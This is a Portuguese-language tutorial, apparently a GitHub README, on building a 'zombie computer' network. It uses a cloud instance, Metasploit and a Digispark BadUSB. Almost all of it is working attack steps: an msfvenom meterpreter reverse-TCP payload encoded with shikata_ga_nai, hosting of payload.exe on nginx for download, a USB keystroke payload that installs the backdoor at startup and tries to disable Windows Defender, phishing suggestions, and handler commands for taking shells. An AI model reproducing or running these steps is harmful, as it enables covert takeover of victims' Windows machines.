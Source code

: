 

**Criar uma instancia e definir um IP estático**

 Eu estarei utilizando o **GCP(Google cloud platform)** mas você pode utilizar o provedor de **CLOUD** que deseja ou até mesmo um VPS.

Acesso meu console e crio a instância. instância essa que é bem básica, uma micro com SO Debian 9.

Com o a instância criada, eu defino um IP estático para ela.
O IP estático é necessário para que não ocorra o risco do IP que definirmos no nosso backdoor mudar e perdemos nossos "computadores zumbis" já conquistados.

**Instalar METASPLOIT**

![](https://res.cloudinary.com/peerlyst/image/upload/c_limit,dpr_auto,f_auto,fl_lossy,h_428,q_auto,w_880/v1/post-attachments/1567258807005_bbvioc)

 Nesse passo vamos instalar nosso canivete suíço **METASPLOIT** para criamos nosso **BACKDOOR** e orquestramos nossos "computadores zumbis".

   Conecte-se a sua instância por ssh para instalarmos o **METASPLOIT**.
   
 ```shell
 curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall
```
Conceda permisão de execução para o instalador.

 ```shell
 chmod +x msfinstall
```
Agora execute o mesmo.

 ```shell
 ./msfinstall
```
E após concluir rode.


 ```shell
 msfconsole --version
```
Como vai ser a primeira execução o **METASPLOIT** vai perguntar se você deseja configurar seu ambiente, criando um novo banco de dados para o metasploit você responde com um sim e seus dados que ele vai criar as credenciais e configurar tudo para que você possa utilizar a ferramenta.

**Criar backdoor**

![](https://encrypted-tbn0.gstatic.com/images?q=tbn%3AANd9GcSCSVqEzi43NukYA2E1HUfNSnztdZxoeFKaTczSbokL40tqbRL9)

Agora vamos criar o nosso backdoor definindo qual tipo de conexão iremos usar, que vai ser uma **REVERSA TCP** para qual tipo de SO alvo, que será máquinas Windows, o nosso **LHOST**(IP de comunicação) que vai ser o nosso IP estático, nossa **LPORT**(porta de comunicação) a porta TCP, o tipo da extensão do backdoor **-f exe**, que são executáveis do windows, o algoritmo de criptografia e compreensão **-e x86/shikata_ga_nai**, **-i 5** o numero de interações do encoded com o backdoor, e **-o** o nosso arquivo de saída.  Se você estive em uma cloud provavelmente vai ter que *criar uma regra de firewall* para a sua porta escolhida

 ```shell
 msfvenom -p windows/meterpreter/reverse_tcp LHOST=34.97.212.80 LPORT=5000 -f exe -e x86/shikata_ga_nai -i 5 -o payload.exe
```

Rodando um ls para listar os arquivos do diretório verá que o arquivo payload.exe foi criado


**Configurar servidor web para download**

O **NGINX** vai ser necessário para  criarmos um servidor web no qual o nosso payload do **Digispark** possa fazer o download do **BACKDOOR** para dentro da máquina alvo. Ou enviarmos o link através de engenharia social para obter acesso a máquina alvo. 
 
 Vamos instalar o nginx.

 ```shell
 sudo apt-get update
 sudo apt-get install -y nginx
```
Iremos criar uma copia do nosso backdoor dentro da pasta do servidor.

 ```shell
 sudo cp ./payload.exe /var/www/html/payload.exe
````

Feito isso nosso arquivo vai esta disponível para download em.

http://34.97.212.80/payload.exe


**DigiQuack: Digispark**

![](https://pbs.twimg.com/media/ELWqVmnXUAE5ku8.jpg)



Para quem não conhece o **Digispark**, ele é uma placa de desenvolvimento com tamanho reduzido e 6 pinos de I/O (entrada/saída), ideal para uso em projetos de IoT (Internet of Things ou Internet das Coisas) ou simplesmente para uso em projetos onde você não precisa de muitas portas do microcontrolador.

Para continuarmos com nosso ataque, precisamos conquistar nosso primeiro "Zumbir". Podemos fazer isso de várias formas envolvendo engenharia social entre elas as mais comuns, como enviar o nosso link para um amigo, ofuscado de tal forma que não levante suspeitas, Ou também utilizando técnicas de **Phishing**.

Mas aqui vou abordar um **ataque de infecção físico**, onde vamos precisar ter acesso físico a uma máquina e em posse de um **Digispark** iremos infectar o alvo.

![](https://i.ytimg.com/vi/YXWxEzLHXuw/maxresdefault.jpg)

> *Poderíamos utilizar o **Rubber duck** *(dispositivo esse usado na serie Mr. Robot)* original, mas no Brasil é difícil encontramos e os poucos chegam a ser vendidos por um precinho um pouco salgado.*

O **Digispark** chega ser um genérico ao Rubber duck tem um desempenho inferior mas é uma alternativa acessível e viável para o nosso ataque e pode ser programada com a **IDE do Arduíno**. Com isso configuraremos o Digispark para ser reconhecido como um teclado, qual não iremos precisar de nenhum tipo de permissão do usuário da máquina, e iremos executar comandos de teclado para fazer o download do backdoor e executar ele na máquina, adicionando ele junto a inicialização do Windows, para que quando a máquina for reiniciada obtermos uma nova conexão.

Agora bora lá, para isso você vai precisar de um [Digispark ATtiny85 que pode ser encontrado no mercado livre por R$ 16](https://eletronicos.mercadolivre.com.br/pecas-componentes/arduino-digispark " Digispark ATtiny85 que pode ser encontrado no mercado livre por R$ 16"). Com ele em mãos agora você vai precisar carregar nele os módulos de "teclado" transformando-o em um "rubbe duck" para isso você pode seguir os passos [deste tutorial](https://aminbohio.com/creating-a-cheap-rubber-ducky-aka-bad-usb-with-attiny85 "este tutorial") e voltar aqui.

> *Talvez você enfrente problemas ao efetuar a injeção de payload no digispark para resolver isso você vai precisar [configurar o uDev]( https://www.hardware.com.br/livros/ferramentas-linux/entendendo-udev.html "configurar o uDev ")*

**Criar Payload para injetar o backdoor**

Feito tudo isso e com o **Arduíno IDE** instalado vamos criar o nosso Payload que ao plugarmos em uma máquina vai fazer o download do backdoor, mover ele para a inicialização do windows, tentar desativar o windows defender e executar nosso backdoor, tudo isso em menos de 30 segundos.

Abra o **Arduíno IDE** e cole o [payload que vou deixar aqui](https://github.com/despossivel/Vetor-de-ataque-com-CLOUD---BACKDOOR-DIGISPARK/blob/master/payload.ino "payload que vou deixar aqui") para vocês. Copiado, colado e entendido o que o payload faz, clique em verificar, para debugar nosso código e depois clique em carregar e aguarde a IDE solicitar que você pluge o digispark. Ao plugar a IDE vai injetar na placa nosso payload e SUCESSO! 

![](https://cedarctic.github.io/digiQuack/images/logo.png)

Nosso **DigiQuack esta criado**.

Agora basta pluga-lo em qualquer máquina windows desviar a atenção do usuário da máquina aguardar alguns segundos e remove-lo, tudo muito rápido.

Você também pode enviar o link para alguém e aguardar que ele se junte a sua rede de zumbis hahahaha


**Iniciar a escuta das conexões**

Agora voltamos para a nossa instância para iniciarmos a escuta na nossa porta. Em acesso SSH iniciamos o console do Metasploit executado

```shell
msfconsole
```
Depois de iniciado vamos selecionar qual exploit iremos usar, que é o multi/handle
feito isso setamos o meterpreter de conexão reversa tcp para o windows, setamos o nosso HOST e PORTA, os mesmo usados na criação do backdoor, e ExitOnSession para que o manipulador possa continuar executando como trabalho mesmo com uma sessão fechada ou com falha no medidor.

```shell
msf >use exploit/multi/handler
msf >set PAYLOAD windows/meterpreter/reverse_tcp
msf >set LHOST 34.97.212.80
msf >set LPORT 5000
msf >set ExitOnSession false
```
Feito isso estamos prontos para receber nossas conexões, você pode pressionar ctrl+c para liberar o terminal que agora iremos visualizar nossas conexões e obter acesso.

**Obter acesso a uma máquina infectada**


Para ficar na escuta em tempo real de quem se conectou ou desconectou rode.

```shell
msf > exploit -j -z
```
 Para listar nossas conexões de entrada até o momento.

```shell
msf> sessions -l 
```
Você terá uma saída algo como.

![](https://s5.gifyu.com/images/sessionsL.png)

E para acessar um "zumbir".
```shell
msf> sessions -i <numero da sessão> 
```

com isso você obtêm acesso shell.

![](https://s5.gifyu.com/images/sessionsI.png)

E é isso, agora você é portador desse conhecimento e como escreveu Stan Lee, Tio Ben, na obra o Homem Aranha.

#### **"Com grandes poderes, vêm grandes responsabilidades."**

 
#### **CONHECIMENTO NÃO É CRIME, CRIME É O QUE VOCÊ FAZ COM ELE.**

#### **ENTÃO UTILIZE  O QUE APRENDEMOS AQUI PARA FINS DIDÁTICOS, PARA ZUAR UM AMIGO OU IRMÃO E RESPEITE A PRIVACIDADE DOS OUTROS**

@despossivel
